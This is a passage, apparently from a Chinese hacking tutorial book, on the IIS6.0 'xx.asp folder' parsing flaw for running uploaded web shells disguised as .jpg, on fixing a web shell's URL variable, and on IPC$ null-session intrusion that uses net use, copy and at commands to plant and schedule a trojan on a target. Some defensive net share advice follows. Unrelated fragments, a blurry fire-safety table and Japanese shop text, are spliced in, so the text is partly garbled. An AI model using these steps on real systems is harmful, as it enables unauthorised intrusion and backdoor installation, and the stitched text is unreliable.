大家对比下如图9、图10所示的两张图，图9中输入的地址，ewebeditor 全为小写，页面返回信息为“NOT FOUND”，有些朋友一看，就以为这个服务器上不存在 ewebeditor 这个目录。这时我们可以改一下字母大小写，把 ewebeditor 改为 eWebEditor，再次访问，如图10所示，页面返回信息为“FORBIDDEN”。



看见不同了吧？图9返回的是 404 提示，图10返回的是 403 提示。图10的信息中，表示存在这个目录，只是不允许我们进入而已。而且根据页面上的信息，我们也可以知道该服务器上使用的系统为 Red Hat，那可是 *nix 系统。

#### 1.2.6 实例解析

上面讲了这么多，实际上我们会遇到哪些问题呢？接下来，就以我写过的一篇文章《浅析 IIS6.0 设计缺陷》来为大家揭开一些在实际过程中遇到问题时的解决方法，大家可以从这篇文章中了解到，一个好的思维是很必须的。

### 《浅析 IIS6.0 设计缺陷》

大家应该还记得动易那个没有过滤 .asp 的漏洞吧？在 WIN2003 系统的 IIS6.0 配合下，我们很容易在如 xx.asp 的文件夹下上传一个 xx.jpg 的木马文件，这样就可以得到 web 木马了，今天我们谈到的问题就是这个设计缺陷。

#### 一、无法访问木马的疑问及解决办法

本来也想在原理性的方面探讨下，可用 google 和百度怎么也搜索不出我想要的结果，而且网上也只说了个方法：让我们建一个 xx.asp 的文件夹，然后在其文件夹里面上传一个木马，把木马改成 jpg 或者 gif 后缀就可以得到我们的后门木马了。可在测试的时候却出现了一些让人疑惑的问题，且听我慢慢道来。

我虚拟机中的系统是 WIN2003，装有 IIS6.0 并允许 asp 及 aspx 脚本文件执行。首先在 IIS 目录下建一个 1.asp 的文件夹，里面放一个木马，文件名已经改成 dama.jpg，如图11所示。





接着我们来到物理本机进行访问，注意地址，为“本机IP/1.asp/dama.jpg”，如图12所示，访问成功。然后我们修改地址为“本机IP/1.asp”进行访问，如图13所示，直接转向到 1.asp 文件夹下了。

这是怎么回事呢？这就是本文要解决的问题之一。问题很奇怪，按理说，都能访问了，应该可以正常登录及使用呀？到网上搜索了下，没有发现有这样类似的问题出现，于是到群里讨论了下，小组成员小浪给了我很大的启发：他认为既然都可以解析 web 木马了，不能登录的问题应该出在木马自身。

从前面的图片可以看出，木马接收到的参数发生了变化，也就是自动转向了 1.asp 文件夹，这是为什么呢？还是来看看木马的参数是怎么接收的吧。我从一个木马里找出了以下几行代码：

```asp
URL=Request.ServerVariables("URL")
ServerIP=Request.ServerVariables("LOCAL_ADDR")
Action=Request("Action")
```





最关键的是第一句，接收到的参数是通过 url 来传递的，也就是说当我们登录的时候，服务器会解析 1.asp（这里我也表达得不太清楚），所以无法验证的情况便出现了。因此为了解决这个问题，我们只需要把第一句换成：`URL=Request.ServerVariables("PATH_INFO")`，这样就可以顺利地用大马访问了，如图14所示。

这里我们就不得不提下 path_info 这个变量了，它的功能就是呈现虚拟路径，这样也就可以顺利解析到 dama.jpg 下。不过从网上得到的答案是，直接先访问小马就不会出现这个问题，如图15所示。



图15

这是因为小马的功能简单，不涉及到复杂的路径解析，不过我等小菜应该本着学习的精神把更多的原理弄懂才是最要紧的。

#### 二、对其他脚本文件解析的思考

小菜贵在学习和举一反三，可能我说的这个问题大牛们早就知道了，不过自己想出来后进行证明才是最重要的！当时我就想，既然能解析 xx.asp 文件夹下的文件，那 xx.aspx、xx.php 等是不是会解析相应的脚本文件呢？我虚拟机系统中的 IIS 是可以解析 aspx 马的，我们来试试。

直接在 IIS 目录下新建个 aspx 文件，然后访问，如图16所示。



图16

开始以为和 asp 大马一样要改下什么东西，可当我把一个平常的 aspx 文件放上去的时候，不能访问。后来证实，确实不能解析 xx.aspx 下的文件，因为连正常木马的 aspx 页面都没出来。那么 xx.php 呢？当我访问的时候，要么把 php 源码直接显示出来，要么就直接显示下载，如图17所示。

猜想可能是因为我的虚拟机系统不支持 PHP 造成的，于是又叫小浪同学测试了下，确实能够把 xx.php 文件夹下的文件解析成 php 文件，不过，他是用正常的 PHP 文件测试的，没有用 PHP 马来测试。

这篇文章主要是想弄清其他脚本是否也支持类似 xx.asp/xx.jpg 这种形式的解析，当然因为条件有限，我也没有继续测试 cfm、cgi 以及 jsp 等其他脚本文件了，同时也希望大家多关注下原理性的东西，毕竟了解原理才是最重要的。



图17

### 总结

第一章谈到的一些问题和术语都是在入侵过程中经常遇到的，上面的一篇文章除了要向大家介绍 Windows 的 BUG 及大马登录问题外，更重要的是向大家传播了一个信息——要学会抓住细节分析问题。一些不经意的小错误，里面可能就蕴藏着巨大的学问和精辟的知识。当然了，这些术语以及特性只是现在存在的，也有可能存在一些未知的知识点。当然，有问题就有解决的方法，这些特性有些已经在其最新版本里解决了，我会在以后的章节中尽量让内容保持与时俱进，让大家了解最新的漏洞利用和方法。大家如果想了解更多的术语，可以看一下“黑手”出品的《黑客术语图文词典》英文词汇版及《黑客词典》中文版，都是很好的书。

## 行政厨房消防常识（标题文字较模糊）

| 项目 | 内容 | 备注 |
|---|---|---|
| （表格文字整体较模糊，疑似为消防/安全检查或应急信息登记表） |  |  |
| 多行记录项 | 多列填写项 | 签字/日期栏 |
| 多行记录项 | 多列填写项 | 签字/日期栏 |
| 多行记录项 | 多列填写项 | 签字/日期栏 |
| 多行记录项 | 多列填写项 | 签字/日期栏 |

> “本日値引き”

## 別の会社を使って


送料無料 3000円以上

## 笔记002号档案：弱口令攻击及其它

什么叫弱口令呢？简单点说就是由常用的数字、字母、字符等组合成的，容易被别人通过简单及平常的思维方式就能猜到的密码。比如我们把密码设置成类似 123456、admin、李 这样的简单组合。

如果你的账号存在弱口令特征，那么这是极其危险的，非法用户将可以利用弱口令进行攻击，从而扮演你而获得你账号的使用权。当你使用银行、QQ、E-mail、论坛及一切涉及到密码的地方，都有可能存在弱口令攻击；这些问题的存在就有可能导致电脑被入侵甚至个人的敏感信息泄露。

当然了，除了这些弱口令之外，从攻击者的角度来看，一切有可能泄露目标信息的方法都有可能在攻击的时候用到。比如 IIS 的目录浏览就有可能把你 web 目录下的所有文件暴露在有恶意企图的人面前，这个时候如果 web 目录下存在一些重要的 txt 文档，或者一些其它的编辑器，那么情况就变得严重起来了，而这些正是攻击者想要得到的。

那么，这一部分让我们来一一见识一下这些攻击的形成及危害吧。

### ☆2.1 共享入侵——IPC$

这个知识点已经被人说烂了，可这里我还是要提，为什么？因为在渗透内网的时候这一招你应该会用到的。IPC$（Internet Process Connection）是共享“命名管道”资源，它是为了让进程间通信而开放的命令管道，可以通过验证用户名和密码获取相应的权限，在远程管理计算机和查看计算机的共享资源时使用。利用 IPC$，攻击者甚至可以与目标主机建立一个空的连接而无需用户名和密码（当然了，前提是对方机器开了 IPC$ 共享，一般来说，IPC$ 共享默认是开启的）。

通过在网上查阅的资料来看，攻击者可以利用空连接得到目标主机上的用户列表，那么这个是怎么回事呢？我们来看一下。先利用命令：`net use \\192.168.1.200\ipc$ "" /user:""` 建立连接，现在我们可不可以像以前输入用户名和密码一样映射目标机的磁盘呢？试试命令：`net use z: \\192.168.1.200\c$`，可惜的是，还是要输入密码，如图1。



图1

那么用户列表用什么命令得到呢？通过分析最后得知，应该是采用暴破的方法，一个一个地试探。比如可以做成一个字典，然后扫描得出用户名和密码。

利用空连接得到用户列表好多工具都可以做到，不过就现在的情况而言，一般只有内网存在少数这样漏洞的机器。在已经知道用户名和密码的情况下，怎么进一步控制机器呢？还是用命令 net，先把对方的 c 盘映射到本地，当然前提是得先建立 IPC$ 空连接，然后再做上一步。

我们先使用命令：`net use \\192.168.1.203\ipc$ "test" /user:administrator`，再使用命令：`net use z: \\192.168.1.203\ipc$`，如图2。

然后，我们再打开“我的电脑”，发现多了一个 z 盘，里面就是目标的 C 盘内容了，如图3。



图2

接下来还可以进行一些什么操作呢？自然是上传木马后门啦，exe 文件或者 bat 文件都可以，这里我以 bat 文件来做示范。映射成功后上传就很简单了，跟我们平常在电脑里复制粘贴是一样的操作。当然了，还有一种方法，就是在命令行下利用 copy 命令来实现上传，命令格式为：`copy c:\test.bat \\192.168.1.203\c$`，如图4。

这样就把 test.bat 传到了目标机器的 C 盘目录下。接下来的问题是如何执行这个 test.bat，这里又要利用到 **at** 命令了。



图3

> at 命令是计划在指定时间和日期在计算机上运行命令和程序。at 命令只能在“计划”服务运行时使用。这里有两点要注意：第一，要知道目标机器的时间和日期；第二，目标机器的计划服务如果关掉的话，那么 at 命令则不能使用。

既然要知道目标机的时间，攻击者一般会利用：`net time \\192.168.1.203` 命令来查看，我运行后得到的结果如图5。

接下来就好办了，利用命令：`at \\192.168.1.203 21:05 c:\test.bat`，就可以让目标机器在 21:05 的时候执行 `c:\test.bat` 这个文件，如图6。如果把这个文件换成木马，那么目标机器就会在三分钟后沦为肉鸡。

IPC$ 入侵的过程就讲到这里，其实你会发现 IPC$ 并不能算作一个漏洞，只能说算作是一个配置不当，如果没有用户名和密码也是白搭。在这一个过程中你会发现，以下几点是你需要注意到的：

- 1. 不要把 `\` 写成了 `/`，写错了命令是不能顺利执行的。  
- 2. 在建立空连接的时候，引号的输入是指在英文状态下的输入（半角）。如果是在全角（中文）状态下输入的话，则会提示错误。

我们已经知道了 IPC$ 的入侵，那针对此种方式该如何防范呢？首先在 cmd 下输入命令：`net share` 看看自己的机器开了多少共享，然后再用命令：`net share 共享名 /del` 删除共享，如图8。

最彻底的办法就是禁用 IPC$ 服务，命令为：`net stop server`，然后输入 `y` 即可，如图9。

现在随着大家安全意识的提高，这种方式的入侵在个人电脑面前已经不太奏效了，不过这一节的基础知识还是很有用的。

### ☆2.2 目录浏览

目录浏览是基于 web 服务的，也就是说如果 web 服务配置不当，就可以导致攻击者浏览 web 目录下的任意文件和目录。除了我们常见的 IIS 外，比如 apache、tomcat、resin 等 web 服务器都有可能存在这样的问题，这里我以 IIS 来说明一下这种漏洞的产生。

在 Windows 操作系统运行的 IIS，我们可以通过“我的电脑”->“属性”->“服务和应用程序”->“Internet 信息服务（IIS）管理器”进入，然后依次展开此目录树后，在“网站”上按鼠标右键选择“属性”，然后切换到“主目录”标签项，如图10。

这个是默认的 IIS 配置，看到“目录浏览”这个选项没？如果我们把这个选项勾选上的话，浏览后会有什么样的效果呢？如图11、图12，分别是没有勾选和勾选后的浏览结果。



图4



图5



图6

